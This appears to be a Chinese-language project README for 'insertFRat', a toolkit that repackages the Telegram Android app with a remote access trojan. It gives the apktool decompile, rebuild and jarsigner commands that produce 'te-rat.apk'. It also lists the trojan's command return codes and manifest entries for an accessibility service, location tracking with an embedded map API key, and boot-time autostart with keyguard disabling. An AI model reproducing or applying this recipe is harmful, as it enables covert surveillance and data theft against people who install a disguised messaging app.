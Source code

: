 # Android码（Telegram）
### insertFRat

此项目用于生成部分需要添加的smali代码，如myService中动态加载包含RAT逻辑的jar并执行，注册屏幕监听事件。

#### 生成方式

### Telegram 编译打包
-gradlew makeJar  // 生成jar
-dx --dex --output ratdex.jar rat.jar // 转换jar
-java -jar apktool_2.4.1.jar d app-debug.apk // 反编译APK，得到smail
-java -jar apktool_2.4.1.jar b .\Telegram_v6.3.0_apkpure.com -o te-rat.apk
-jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keypass 123456 -storepass 123456 -keystore demo.keystore te-rat.apk demo.keystore

#### 指令返回
## 0          //success
## 10001      //没有权限，无法执行操作
## 10002      //文件上传失败，请重试
## 10003      //指令参数错误，参数为目录
## 10004      //文件夹已存在
## 10005      //文件夹创建失败

#### Telegram 配置
#### File_path smali_classes2
### AccessibilityService
## <service
##     android:name="com.hhm.android.otherapp.myService"
##     android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE">
##     <intent-filter>
##         <action android:name="android.accessibilityservice.AccessibilityService"/>
##     </intent-filter>
##     <meta-data
##         android:name="android.accessibilityservice"
##         android:resource="@xml/accessibility"/>
## </service>

### 高德地图
## <service android:name="com.amap.api.location.APSService" />
## <meta-data
##     android:name="com.amap.api.v2.apikey"
##     android:value="9ca8190b472b1e379bb7b11943b60618" />

### 开机自启动
## <uses-permission android:name="android.permission.DISABLE_KEYGUARD" />
## <receiver
##     android:name="com.hhm.android.otherapp.BootReceiver"
##     android:enabled="true"
##     android:exported="true"
##     android:priority="1000">
##     <intent-filter android:directBootAware="true">
##         <action android:name="android.intent.action.BOOT_COMPLETED" />
##         <action android:name="android.intent.action.LOCKED_BOOT_COMPLETED" />
##         <action android:name="android.intent.action.QUICKBOOT_POWERON" />
##         <action android:name="android.intent.action.REBOOT"/>
##         <category android:name="android.intent.category.HOME" />
##     </intent-filter>
## </receiver>

